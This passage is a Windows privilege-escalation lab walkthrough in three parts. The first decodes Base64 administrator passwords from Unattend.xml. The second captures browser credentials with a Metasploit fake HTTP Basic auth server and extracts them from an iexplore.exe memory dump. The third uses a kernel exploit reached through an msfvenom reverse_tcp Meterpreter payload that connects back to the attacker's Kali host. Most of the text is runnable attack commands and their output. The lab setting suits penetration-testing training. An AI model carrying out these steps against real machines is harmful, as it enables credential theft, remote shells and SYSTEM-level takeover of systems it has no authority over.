  The `Unattend.xml` file allows administrators to configure and automate a wide-scale Windows deployment. If this file is not properly cleaned up after installation, it can leave a local administrator's password on the system. While the password is often encoded in Base64, this is not a form of encryption and can be easily reversed to reveal the plaintext password.
  
  💥 Exploitation
  ---------------
  
  The exploitation process involves finding the `Unattend.xml` file, extracting the encoded password, and decoding it.
  
  ### 1\. Finding the Password (Windows VM)
  
  1.  Locate and Read the Unattend.xml File
  
      These files are often found in C:\Windows\Panther\. Open a command prompt on the Windows VM and use the type command to display its contents.
  
      
  
      ```ruby
      type C:\Windows\Panther\Unattend.xml
  
      ```
  
  2.  Extract the Encoded String
  
      Look through the XML output for the <Password> section. Inside, you will find a <Value> tag containing a Base64 string.
  
      
  
      ```xml
      <UserAccounts>
          <AdministratorPassword>
              <Value>QWRtaW5QYXNzd29yZDEyMyE=</Value>
              <PlainText>false</PlainText>
          </AdministratorPassword>
      </UserAccounts>
  
      ```
  
      Copy the Base64 string from between the `<Value>` tags (in the example above: `QWRtaW5QYXNzd29yZDEyMyE=`).
  
  ### 2\. Decoding the Password (Kali VM)
  
  1.  Decode the Base64 String
  
      On your Kali machine, use the echo and base64 -d commands to decode the string you copied.
  
      
  
      ```Bash
      echo <COPIED_BASE64_STRING> | base64 -d
  
      ```
  
  2.  Reveal the Plaintext Password
  
      The output will be the plaintext administrator password.
  
      
  
      ```Bash
      # Example using the string from above
      echo QWRtaW5QYXNzd29yZDEyMyE= | base64 -d
      AdminPassword123!
  
      ```
  
  ✅ Gaining Access
  ----------------
  
  Now that you have the administrator's password, you can use it to escalate your privileges.
  
  1.  Switch to the Administrator Account
  
      On the Windows VM, you can now use these credentials with commands like runas to execute commands as the administrator or simply log out and log back in as the administrator.
  
      DOS
  
      ```
      runas /user:Administrator cmd.exe
  
      ```
  
      Enter the decoded password when prompted, and you will be granted a new command prompt with administrative privileges.
  
      <img width="640" height="154" alt="image" src="https://github.com/user-attachments/assets/1d27a0df-de9a-4831-9e45-dd6e09805369" />

  
      ```xml
       <AutoLogon>
                <Password>
                    <Value>cGFzc3dvcmQxMjM=</Value>
                    <PlainText>false</PlainText>
                </Password>
                <Enabled>true</Enabled>
                <Username>Admin</Username>
            </AutoLogon>
      ```




  </details>



- <details>
      <summary>Memory</summary>





  
  
  Windows Privilege Escalation: Password Mining from Process Memory
  =================================================================
  
  This guide demonstrates a technique for extracting credentials from the memory of a running process. When applications handle authentication, credentials may temporarily reside in the process's memory in plaintext or a weakly encoded format (like Base64). By creating a memory dump of a process after it has authenticated, an attacker with local access can search the dump file to recover those credentials.
  
  ⚙️ The Setup
  ------------
  
  This attack requires two parts: setting up a fake server to prompt for credentials and then having the user on the target machine authenticate to it.
  
  ### 1\. Setting Up a Fake Authentication Server (Kali VM)
  
  We will use a Metasploit auxiliary module to quickly create a web server that requests HTTP Basic Authentication.
  
  1.  **Start Metasploit**
  
      Bash
  
      ```
      msfconsole
  
      ```
  
  2.  Configure the HTTP Basic Auth Capture Server
  
      This module will listen for connections and record any credentials it receives.
  
      Ruby
  
      ```
      msf6 > use auxiliary/server/capture/http_basic
      msf6 auxiliary(server/capture/http_basic) > set uripath /x
      msf6 auxiliary(server/capture/http_basic) > run
  
      ```
  
      Metasploit is now listening for incoming connections.
  
  ### 2\. Triggering Authentication (Windows VM)
  
  1.  On the Windows VM, open Internet Explorer and browse to the server you just set up.
  
      ```
      http://<Your Kali VM IP Address>/x
  
      ```
  
  <img width="1821" height="675" alt="image" src="https://github.com/user-attachments/assets/4718474d-6acd-4df6-8664-67aeecbdb206" />
  
  
  2.  Internet Explorer will display an authentication prompt. Enter any username and password (e.g., `user` / `password123`) and click OK. These credentials will now be stored temporarily in the `iexplore.exe` process memory.
  
  💥 Exploitation: Memory Analysis
  --------------------------------
  
  Now that the credentials are in memory, we will create a dump of the browser process and analyze it on our Kali machine.
  
  ### 1\. Creating the Memory Dump (Windows VM)
  
  1.  Open Task Manager
  
      On the Windows VM, right-click the taskbar and select Task Manager, or press Ctrl+Shift+Esc.
  
  2.  **Create the Dump File**
  
      -   Go to the **Details** tab.
  
      -   Find and right-click on the **`iexplore.exe`** process.
  
      -   Select **Create dump file** from the context menu.
  
      -   Note the location where the `iexplore.DMP` file is saved.
  
  
  
  
  
  3.  Transfer the Dump File
  
      Copy the generated iexplore.DMP file from the Windows VM to your Kali machine (e.g., to the Desktop).
  
  
  
  
  
  
  ### 2\. Finding and Decoding the Credentials (Kali VM)
  
  1.  Search the Dump for Authentication Headers
  
      On your Kali machine, open a terminal. Use the strings command to find human-readable text in the dump file and grep to filter for the HTTP Basic Authentication header.
  
      Bash
  
      ```
      strings ~/Desktop/iexplore.DMP | grep "Authorization: Basic"
  
      ```
  
      The output will be the full header, including a Base64 encoded string. For example:
  
      ```
      Authorization: Basic dXNlcjpwYXNzd29yZDEyMw==
  
      ```
  
  2.  Decode the Base64 String
  
      Copy only the Base64 string from the previous output. Use echo and base64 -d to decode it.
  
      Bash
  
      ```
      echo -ne 'dXNlcjpwYXNzd29yZDEyMw==' | base64 -d
  
      ```
  
  3.  Reveal the Credentials
  
      The output will be the plaintext credentials that were entered into the browser.
  
      ```
      user:password123
  
      ```
  
      This confirms the successful extraction of credentials from the process memory dump.
  
  
  
  
  
  
  





  </details>





  
</details>



<details>
  <summary>Privilege Escalation - Kernel Exploits</summary>






Windows Privilege Escalation: Kernel Exploits
=============================================

This guide demonstrates how to perform privilege escalation by exploiting a vulnerability in the Windows Kernel. Kernel exploits target flaws in the core of the operating system to execute code with the highest level of privileges (`NT AUTHORITY\SYSTEM`).

The process involves three main phases:

1.  **Gaining Initial Access:** Establishing a low-privileged Meterpreter shell on the target.

2.  **Detection:** Using a post-exploitation module to identify potential kernel vulnerabilities.

3.  **Exploitation:** Using a specific exploit module to leverage a vulnerability and gain a `SYSTEM`-level session.

1\. Gaining Initial Access
--------------------------

First, we need to create a payload and set up a listener to get a basic shell on the Windows VM.

### Kali VM: Setup

1.  **Start Metasploit and Configure the Listener**

    

    ```Bash
    msfconsole

    ```

    

    ```Ruby
    msf6 > use multi/handler
    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set lhost <Your Kali VM IP Address>
    msf6 exploit(multi/handler) > run

    ```

2.  Generate the Payload

    Open a new terminal window on your Kali VM. Use msfvenom to create the executable.

    

    ```Bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Your Kali VM IP Address> -f exe -o shell.exe

    ```

3.  **Transfer and Execute**

    -   Copy the generated `shell.exe` to the Windows VM.

    -   On the Windows VM, execute `shell.exe`. This will connect back to your Metasploit listener and open a Meterpreter session.

2\. 🕵️‍♂️ Detection & Exploitation
-----------------------------------

With a low-privilege session active, we will use Metasploit's suggester to find a viable kernel exploit.

1.  Find Potential Exploits

    Background your current Meterpreter session by pressing Ctrl+Z and then run the local_exploit_suggester module.

    

    ```Ruby
    meterpreter > background
    msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
    msf6 post(multi/recon/local_exploit_suggester) > set SESSION <Your Session ID>
    msf6 post(multi/recon/local_exploit_suggester) > run

    ```

    > The suggester will analyze the target system and list potential exploits. For this example, it identifies `exploit/windows/local/ms16_014_wmi_recv_notif` as a likely candidate.

2.  Configure the Kernel Exploit

    Now, load the exploit module identified by the suggester.

    

    ```Ruby
    msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms16_014_wmi_recv_notif
    msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > set SESSION <Your Session ID>
    msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > set LPORT 5555

    ```

3.  Run the Exploit

    Execute the module to exploit the kernel vulnerability.

    

    ```Ruby
    msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > run

    ```

    > **Note:** If the exploit fails to connect back, it might be using the wrong network interface. Ensure your `LHOST` is set correctly for this exploit: `set lhost <Your Kali VM IP Address>` and then `run` again.

✅ Verification
--------------

If the exploit is successful, Metasploit will create a new, high-privilege session.

1.  Catch the SYSTEM Shell

    You will see a message indicating a new session has opened.

    ```
    [*] Meterpreter session 2 opened (...)

    ```

2.  Verify Privileges

    Enter the new session and use the getuid command to confirm your identity.

    

    ```Ruby
    msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > sessions -i 2
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM

    ```

    The output confirms you have successfully exploited the kernel and escalated to the highest privilege level.






  
</details>












